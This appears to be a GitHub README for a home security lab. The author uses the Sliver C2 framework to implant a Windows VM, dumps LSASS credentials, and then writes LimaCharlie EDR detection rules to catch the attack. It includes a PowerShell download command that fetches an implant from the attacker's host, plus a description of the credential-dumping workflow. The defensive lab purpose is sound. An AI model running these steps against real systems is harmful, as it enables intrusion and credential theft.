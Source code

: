 # LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed [Sliver-Server C2](https://bishopfox.com/blog/sliver), a command and control attack tool. I will be conducting a Credial Gathering attack using LSASS.exe to extract usernames and passwords. 

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.


The Technologies and Tools used during this project:

* Virtual Box NatNetwork
* Virtual Machines 
  + Windows 11
  + Ubuntu Server 22.04
* LimaCharlieEDR
* Silver Server 

## Labbing

After environment is set up I created a Sliver-Server C2 implant on the Ubuntu server to install on to the Windows System

![Implant](https://i.imgur.com/LEP0qSk.png)

Next I created quick websever on the Ubuntu machine for the C2 Payload to be installed from, then I ran this command on the Windows device.

![IWR](https://i.imgur.com/dadsDeX.png)

Command: IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]


After downloading the implant we need to run the malicious file 


![Excute](https://i.imgur.com/mkdYQkp.png)

## After Implant is installed on Victum

We can run some commands inside the sliver-server session itself. 

Jumping inside our our session we can run some commands to identify the device we are on.

Whoami - Hostname

Netstat - Network connections

ps -T - Process Tree (sliver Highlights green its own files)

![Tree](https://i.imgur.com/CfmWUyF.png)


## Inside LimaCharlie EDR

After installing the malicious file we should be able to see this inside of our EDR soultion.

First thing to look at is going to be the processes running. After looking around for some time we see this file that does not have a signature(yellow)

![process](https://i.imgur.com/Pts6px0.png)

After finding that process we can go see that this file location is inside the Downloads folder of a user called Victum so we can locate this inside the filesystem section of LimaCharlie

![filesystem](https://i.imgur.com/ksRCp3P.png)

Now we are going to look at the timeline and go through and see what is going on when this file was installed. 

![timeline](https://i.imgur.com/jYVSaNr.png)

We can see that there is a Network Connetion created and the file in question is COMPLEX_BELL the malicious file. 

Usually a next step would be gathering the hash of the file and running this through VirusTotal but when doing this, VirusTotal returns nothing. This indicates that the attacker crafted this file themselves.  

## Credential Gathering

For attackers getting access to more than one account is critical. A way to do this is gathering creditals from the file lsass.exe. This file holds usernames, passwords and security tokens.

To learn more about LSASS Credential Gathering refer to [Mitre](https://attack.mitre.org/techniques/T1003/001/)

Running this command will copy the contents of the lsass file and dump it inside of the attackers host. 

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

To detect this method of Credential Gathering we will write a detection rule to detect this technique. 

In LimaCharlie we can enter this detection rule: 

![lsass-detection-rule](https://i.imgur.com/6bDKczs.png)

This rule will detect any interaction with the lsass file, so this could cause a lot of False Postives if administrators are using this file. But for this lab it is a good rule since we dont have any actual users. 

Now if we run the lsass dump command again

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

We will be able to detect it inside of LimaCharlie

![Lima-Detections](https://i.imgur.com/mCsvF9u.png)

## Conclusion



## Credit

This project was based on a blog post by [Eric Capuano](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?sd=pf) 


